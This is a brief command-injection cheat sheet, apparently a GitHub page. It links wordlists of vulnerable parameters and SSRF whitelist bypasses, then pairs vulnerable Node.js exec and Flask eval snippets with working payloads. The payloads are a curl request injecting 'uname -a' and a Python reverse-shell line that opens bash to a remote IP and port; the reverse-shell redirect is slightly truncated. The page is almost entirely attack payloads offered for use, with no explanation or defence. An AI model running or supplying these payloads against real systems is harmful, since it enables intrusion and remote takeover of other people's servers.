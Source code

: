 
## Params
```
https://github.com/0x221b/Wordlists/blob/master/Attacks/Command-Injection/Common-Vuln-Params.txt
```

## Payloads
```
https://github.com/0x221b/Wordlists/blob/master/Attacks/SSRF/Whitelist-bypass.txt
```



# Nodejs
Code:
exec('whois ${domain}', (error, stdout) => {
```bash
curl -s -k -X 'POST' --data-binary 'domain=a;uname -a' http://localhost:3000/lookup
```

# Flask
Code:
result = eval(expression)

```
__import__('os').system('bash -c "bash -i >& /dev/tcp/192.168.10.21/1337 0>&"')
```

